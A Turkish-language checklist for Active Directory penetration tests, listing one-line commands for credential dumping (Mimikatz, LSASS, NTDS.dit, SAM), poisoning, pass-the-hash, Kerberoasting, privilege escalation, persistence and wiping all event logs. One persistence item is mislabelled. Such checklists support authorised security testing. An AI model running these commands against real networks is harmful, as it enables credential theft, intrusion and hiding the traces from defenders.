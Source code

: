 # Active Directory Pentest Kontrol Listesi

## 👍 Credential Gathering

- [ ] **Kullanıcı Adlarını ve Parolaları Topla**
  - **Komut**: `rpcclient -U "" [DC-IP]`
- [ ] **DC'deki Misafir Oturumlarını Kontrol Et**
  - **Komut**: `net use \\\[DC-IP] /user:guest`
- [ ] **LAPS (Local Administrator Password Solution) Parolalarını Kontrol Et**
  - **Komut**: `powershell -command "Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd"`
- [ ] **Ntlmrelayx ile Kimlik Bilgilerini Yakala**
  - **Komut**: `python3 ntlmrelayx.py -smb2support`
- [ ] **SAM Dosyasını Ele Geçir ve Analiz Et**
  - **Komut**: `reg save hklm\sam sam.save`
- [ ] **Cached Credentials İçin LSASS Belleğini Analiz Et**
  - **Komut**: `procdump.exe -ma lsass.exe`
- [ ] **NTDS.dit Dosyasını Çıkar ve Hashleri Dump Et**
  - **Komut**: `secretsdump.py -just-dc [user]:[password]@[IP]`
- [ ] **Mimikatz Kullanarak Kimlik Bilgilerini Çıkar**
  - **Komut**: `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`
- [ ] **Windows Credential Manager'dan Kimlik Bilgilerini Topla**
  - **Komut**: `cmdkey /list`
- [ ] **Group Policy Preferences (GPP) Şifrelerini Keşfet**
  - **Komut**: `findstr /S /I /C:"password" \\\[domain]\SYSVOL`
- [ ] **Responder veya Inveigh ile Kimlik Bilgisi Toplamayı Dene**
  - **Komut**: `responder -I [network_interface]`
  - **PowerShell Komut**: `Invoke-Inveigh`
- [ ] **Certify Kullanarak ADCS (Active Directory Certificate Services) Yapılandırmasını Analiz Et**
  - **Komut**: `Certify.exe find`
- [ ] **LAPSToolkit ile LAPS Yapılandırmasını Keşfet**
  - **Komut**: `Get-LAPSComputers`
- [ ] **KeeTheft ile Windows Credential Manager Şifrelerini Topla**
  - **Komut**: `KeeTheft.exe dump`
- [ ] **SafetyKatz veya BetterSafetyKatz ile Bellekten Kimlik Bilgisi Dump Et**
  - **Komut**: `SafetyKatz.exe sekurlsa::logonpasswords`
- [ ] **KrbRelay veya KrbRelayUp Kullanarak Kerberos Relay Saldırısını Dene**
  - **Komut**: `KrbRelay.exe -dc-ip [DC-IP]`
- [ ] **GMSAPasswordReader ile gMSA Şifrelerini Çıkar**
  - **Komut**: `GMSAPasswordReader.exe`

## 👍 Enumeration

- [ ] **Domain Kullanıcılarını Listele**
  - **Komut**: `Get-ADUser -Filter *`
- [ ] **Domain Gruplarını Kontrol Et**
  - **Komut**: `Get-ADGroup -Filter *`
- [ ] **Domain Controller (DC) Yapılandırmasını Kontrol Et**
  - **Komut**: `nltest /dclist:domainname`
- [ ] **LDAP Bağlantılarını Kontrol Et**
  - **Komut**: `ldapsearch -x -H ldap://[DC-IP] -b "DC=domain,DC=com"`
- [ ] **GPO (Group Policy Objects) Ayarlarını İncele**
  - **Komut**: `gpresult /h report.html`
- [ ] **Forest ve Domain Trust İlişkilerini Analiz Et**
  - **Komut**: `Get-ADTrust -Filter *`
- [ ] **Domain Policy Bilgilerini Kontrol Et**
  - **Komut**: `Get-DomainPolicy`
- [ ] **Açık Paylaşımları (Shares) Listele**
  - **Komut**: `net view \\\[IP]`
- [ ] **Kerberos SPN'leri Listele**
  - **Komut**: `GetUserSPNs.py -request -dc-ip [DC-IP] [domain/user]`
- [ ] **SharpHound ile AD Ortamını Analiz Et**
  - **Komut**: `SharpHound.exe -c All`
- [ ] **ADRecon ile Detaylı Raporlama Yap**
  - **Komut**: `ADRecon.ps1`
- [ ] **PowerView Kullanarak AD Bilgilerini İncele**
  - **Komut**: `Get-NetUser`, `Get-NetGroup`, `Get-NetComputer`
- [ ] **bloodyAD ile AD Yapılandırmasını Analiz Et**
  - **Komut**: `bloodyAD -u [user] -p [password] -d [domain]`
- [ ] **SharpView ile AD Nesnelerini Detaylı Analiz Et**
  - **Komut**: `SharpView.exe`
- [ ] **ADFSDump Kullanarak ADFS Yapılandırmasını Analiz Et**
  - **Komut**: `ADFSDump.exe`

## 👍 Lateral Movement

- [ ] **Uzak Masaüstü Protokolü (RDP) Üzerinden Bağlantı**
  - **Komut**: `mstsc /v:[IP]`
- [ ] **Pass-The-Hash Saldırıları İçin NTLM Hashlerini Kullan**
  - **Komut**: `impacket-psexec [user]:[hash]@[IP]`
- [ ] **PrintSpoofer ile Yetki Yükseltme Yap**
  - **Komut**: `PrintSpoofer.exe -i`
- [ ] **JuicyPotato veya GodPotato Kullanarak Hak Yükseltme Yap**
  - **Komut**: `JuicyPotato.exe -t *`
- [ ] **PetitPotam Saldırısını Gerçekleştir**
  - **Komut**: `PetitPotam.py -d [domain] -u [user] -p [password]`
- [ ] **SharpMove ile Lateral Movement Gerçekleştirin**
  - **Komut**: `SharpMove.exe -d [domain] -u [user] -p [password]`
- [ ] **RestrictedAdmin Modunda RDP ile Bağlantı**
  - **Komut**: `mstsc /restrictedadmin /v:[IP]`
- [ ] **SharpRDP ile RDP Saldırılarını Test Edin**
  - **Komut**: `SharpRDP.exe -target [IP] -u [user] -p [password]`
- [ ] **NetworkServiceExploit ile Ağ Hizmetlerini Hedef Alarak Lateral Movement Gerçekleştirin**
  - **Komut**: `NetworkServiceExploit.exe`

## 👍 Privilege Escalation

- [ ] **Kerberoasting Saldırılarını Test Et**
  - **Komut**: `GetUserSPNs.py -request -dc-ip [DC-IP] [domain/user]`
- [ ] **Certify ile ADCS Zafiyetlerini Test Et**
  - **Komut**: `Certify.exe request /ca:[CA Name]`
- [ ] **Rubeus Kullanarak Kerberos Bileti Oluştur**
  - **Komut**: `Rubeus.exe asktgt /user:[user] /rc4:[hash]`
- [ ] **NoPac Saldırısını Test Et**
  - **Komut**: `python3 noPac.py -dc-ip [DC-IP]`
- [ ] **Powermad ile ACL Düzenlemesi Yaparak Hak Yükseltme Yap**
  - **Komut**: `New-MachineAccount`
- [ ] **SharpKatz ile Bellekten Hashleri Dump Et**
  - **Komut**: `SharpKatz.exe sekurlsa::logonpasswords`
- [ ] **RunasCs ile Yüksek Haklara Sahip Bir Kullanıcı Olarak İşlem Başlat**
  - **Komut**: `RunasCs.exe -u [user] -p [password] -d [domain]`
- [ ] **SharpUp ile Yanlış Yapılandırmaları Kontrol Ederek Hak Yükseltme Yap**
  - **Komut**: `SharpUp.exe`
- [ ] **Whisker ile Shadow Credentials Oluştur ve Kullan**
  - **Komut**: `Whisker.exe create /target:[user]`
- [ ] **PassTheCert ile Sertifika Bazlı Saldırılar Gerçekleştir**
  - **Komut**: `PassTheCert.exe`

## 👍 Persistence

- [ ] **AdminSDHolder Özelliklerini Kontrol Et**
  - **Komut**: `Get-ADObject -Filter {name -eq "AdminSDHolder"}`
- [ ] **Scheduled Task Oluşturarak Kalıcılık Sağla**
  - **Komut**: `schtasks /create /tn [taskname] /tr [command] /sc onlogon`
- [ ] **Skeleton Key Yükleyerek DC'yi Manipüle Et**
  - **Komut**: `mimikatz "privilege::debug sekurlsa::logonpasswords"`
- [ ] **Acl-Backdoor Kullanarak Kalıcı Erişim Sağla**
  - **Komut**: `Set-DomainObjectAcl`
- [ ] **Shadow Credentials ile Kalıcılık Sağla**
  - **Komut**: `Whisker.exe create /target:[user]`
- [ ] **Powermad ile Yeni Makine Hesapları Oluştur ve Kontrolü Ele Geçir**
  - **Komut**: `New-MachineAccount`
- [ ] **SharpChrome ile Tarayıcı Şifrelerini Al ve Kalıcılık Sağla**
  - **Komut**: `SharpChrome.exe`

## 👍 Additional Checks

- [ ] **ADCS (Active Directory Certificate Services) Yapılandırmasını Analiz Et**
  - **Komut**: `certutil -dump`
- [ ] **DNS Zone Transfer'ı Kontrol Et**
  - **Komut**: `dig @<DNS-Server> <domain> axfr`
- [ ] **SMB Signing'in Devre Dışı Olup Olmadığını Kontrol Et**
  - **Komut**: `smbclient -L //[IP] -N`
- [ ] **LLMNR ve NBT-NS Zehirlenmesine Karşı Savunmasızlığı Kontrol Et**
  - **Komut**: `responder -I [network_interface] -w`
- [ ] **MS17-010 (EternalBlue) Zafiyetini Test Et**
  - **Komut**: `nmap -p445 --script smb-vuln-ms17-010 [IP]`
- [ ] **PowerUp ile Yanlış Yapılandırmaları Test Et**
  - **Komut**: `PowerUp.ps1`
- [ ] **Seatbelt ile Endpoint Konfigürasyonlarını İncele**
  - **Komut**: `Seatbelt.exe all`

## 👍 Cleanup

- [ ] **Kullanılan Araç ve Scriptleri Sistemden Temizle**
  - **Komut**: `del /q /f [scriptname]`
- [ ] **Event Logs Üzerinde İz Bırakmamak İçin Log Temizle**
  - **Komut**: `Clear-EventLog -LogName *`
- [ ] **Kullanıcı İzlerini Silmek İçin Temporary Dosyaları Temizle**
  - **Komut**: `del /q /f %temp%\*`

---

Bu liste, Active Directory pentest işlemleri sırasında tüm aşamalarda kapsamlı bir rehber sunar. Her bölümde belirtilen araç ve komutlar, sıklıkla kullanılan teknikler ve iyi uygulamaları temsil eder.
